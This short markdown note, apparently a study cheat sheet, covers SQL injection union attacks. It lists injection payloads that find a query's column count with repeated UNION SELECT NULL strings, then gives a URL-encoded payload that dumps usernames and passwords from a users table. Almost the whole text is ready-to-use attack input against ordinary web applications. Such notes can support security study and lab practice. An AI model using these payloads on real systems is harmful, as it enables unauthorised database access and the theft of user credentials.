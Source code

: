 # Union attacks

Determine number of columns:

```sql
'+UNION+SELECT+'abc','def'--
```

* example is for 2 columns

```
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
etc.
```

Retrieve contents of `users` table:

```sql
'+UNION+SELECT+username,+password+FROM+users--
```
